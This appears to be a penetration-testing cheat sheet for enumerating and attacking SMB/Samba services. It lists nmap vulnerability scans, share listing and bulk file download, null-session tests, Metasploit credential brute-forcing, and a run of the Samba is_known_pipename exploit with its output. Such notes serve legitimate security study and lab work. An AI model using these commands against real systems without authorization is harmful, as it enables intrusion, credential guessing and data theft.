 # SMB

[https://infinitelogins.com/2020/06/17/enumerating-smb-for-pentesting/](https://infinitelogins.com/2020/06/17/enumerating-smb-for-pentesting/)

Using NMAP Scan for popular RCE exploits.

```
sudo nmap -p 139,445 --script smb-vuln* <ip-addr> -oA nmap/smb-vuln
```

Identify the SMB/OS version.

```
nmap -v -p 139,445 --script=smb-os-discovery.nse <ip-addr>
```

Enumerate users once you have valid credentials:

```
sudo nmap --script=smb-enum-users -p 445 192.168.1.2 --script-args smbuser=<user>,smbpass=<password>
```

Using NBTSCAN To scan a subnet for list of hostnames:

```
nbtscan -v <targetRange>
```

Using SMBMAP To list out the shares and associated permissions with Anonymous Access:

```
smbmap -H <ip-addr>
```

To list out the shares recursively:

```
smbmap -R <sharename> -H <ip-addr>
```

To list shares as an authenticated user:

```
smbmap -d <domain> -u <username> -p <password> -H <ip-addr>
```

To list the shares as a Guest user, just provide a username that doesn’t exist.

```
smbmap -u DoesNotExist -H <ip-addr>
```

To download a particular file.

```
smbmap -R <sharename> -H <ip-addr> -A <filename> -q
```

Using SMBCLIENT To list out the shares:

```
smbclient -L \\\\<ip-addr>
```

To connect to shares:

```
sudo smbclient \\\\<ip-addr>\\<share>
```

Downloading files: Once connected, you can download files. You’ll want to disable interactive prompts and turn recursive mode ON.

```
smb: /> prompt
smb: /> recurse
smb: /> mget *
```

Using ENUM4LINUX The following command will attempt to establish a null session with the target and then use RPC to extract useful information.

```
enum4linux -a [ip]
```

Example output is long, but some highlights to look for: • Listing of file shares and printers. • Domain/Workgroup information. • Password policy information. • RID cycling output to enumerate users and groups.

Using METASPLOIT Bruteforcing credentials:

```
use auxiliary/scanner/smb/smb_login
set BLANK_PASSWORDS true
set PASS_FILE /usr/share/seclists/Passwords/Common-Credentials/best15.txt
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
set RHOSTS <ipAddr>
```

Mounting SMB Shares in Linux The following command will mount the remote file-share to /mnt/smb/ (this directory must exist first) and prompt you for the password.

```
mount -t cifs -o username=<user> //<targetIP>/<shareName> /mnt/smb/
```

Another way to mount a share from Linux is as follows:

```
sudo mount.cifs //<targetIP>/share /mnt/share username=,password=
```

Using SMBCACLS Viewing file permissions, owners, and ACLs of shares.

```
smbcacls -N '//<targetIP>/<shareName>' /<childDir>
```

To use this recursively, you can use a for loop in Bash.

```
cd <mountedShare>
for i in $(ls); do echo $1; smbcacls -N '//<targetIP>/<shareName>' /$i; done
```

Enumeration from Windows Utilities To get the Name Table:

```
nbtstat -A <targetIP>
```

To see a list of running shares:

```
net view <targetIP>
```

You can map a share to a drive letter, such as K:

```
net use K: \\<targetIP>\share
```

Testing for null session:

```
net use \\<targetIP>\IPC$ "" /u:""
```

Gaining a Shell Once you have valid credentials on the machine, or a valid NTLM hash, you can leverage the following guide to gain a shell.

https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/

Enumerating SMB Version If your tools aren’t working to enumerate the version, you can establish a connection via smbclient and then extract the Samba/SMB version through a packetcapture. To automate the process, you can use the script available at https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon\_enum/smbver.sh

## Troubleshooting Common Errors:

### **protocol negotiation failed: NT\_STATUS\_CONNECTION\_DISCONNECTED**

This error occurs because your modern tools are not able to communicate to older, insecure protocols. You just need to tell your smbd daemon to use the weaker and more insecure protocols. Note: If you are using smbd in real life for file and printer sharing, I don’t recommend leaving you system like this. Open the following files in your favorite text editor.

```
/etc/samba/smb.conf
```

Find the Global section, and add the following line.

```
client min protocol = LANMAN1
```

With that line added, restart your smdb service and you should now be able to connect.

```
service smbd restart
```

### smbclient fix for "protocol negotiation failed: NT\_STATUS\_CONNECTION\_DISCONNECTED"

```
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'

smbclient -L 10.11.1.115 -U "" -N

Unix.Samba 2.2.7
```

### Metasploit SMB Error

```
searchsploit samba
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' 
Arbitrary Module Load (Metasploit)| linux/remote/42084.rb
```

```
msfconsole
---
msf6 > search samba

14  exploit/linux/samba/is_known_pipename                2017-03-24
       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load

use 14

set RHOSTS 192.168.1.2
set SMB_SHARE_NAME TestShare
run

192.168.1.2:445 - Exploit failed: RubySMB::Error::EncryptionError Communication error 
with the remote host: Socket read returned nil. The server supports encryption but was
 not able to handle the encrypted request.
```

Error solving - https://www.whitehat.de/msf-metasploit-rubysmb-error-encryptionerror-communication-error-with-the-remote-host

set SMB::AlwaysEncrypt false&#x20;

set SMB::ProtocolVersion 1
